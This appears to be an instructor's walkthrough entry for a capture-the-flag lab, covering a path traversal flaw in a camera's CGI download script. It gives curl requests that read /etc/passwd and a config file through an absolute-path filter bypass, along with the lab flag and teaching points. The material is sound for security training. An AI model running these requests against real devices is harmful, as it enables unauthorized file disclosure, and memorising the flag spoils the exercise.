 
### Flag #10: Path Traversal Vulnerability
**Location**: `/var/config/system.conf`  
**Flag**: `FLAG{GALADRIEL57815620}`

```bash
# Test basic path traversal
curl "http://192.168.1.132/cgi-bin/download.cgi?file=../../../etc/passwd"
```

**Output:**
```
Error: Invalid file path - contains ../
```

```bash
# Try bypass techniques - double encoding
curl "http://192.168.1.132/cgi-bin/download.cgi?file=..%2f..%2f..%2fetc%2fpasswd"
```

**Output:**
```
Error: Invalid file path
```

```bash
# Use absolute path (often forgotten by filters)
curl "http://192.168.1.132/cgi-bin/download.cgi?file=/etc/passwd"
```

**Output:**
```
root:x:0:0:root:/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/bin/false
www-data:x:33:33:www-data:/var/www:/bin/false
```

```bash
# Get the flag file
curl "http://192.168.1.132/cgi-bin/download.cgi?file=/var/config/system.conf"
```

**Output:**
```
# System Configuration
device_name=AXIS-P1435-LE
firmware_version=10.5.0
serial_number=ACCC8E123456
config_flag=FLAG{GALADRIEL57815620}
last_update=2025-01-27
```

**Teaching Points:**
- Many filters only block relative traversal (../)
- Absolute paths may bypass filters
- URL encoding and double encoding are common bypasses

**Common Student Mistakes:**
- Only trying ../ without other techniques
- Not using absolute paths
- Forgetting to URL-encode when using tools

---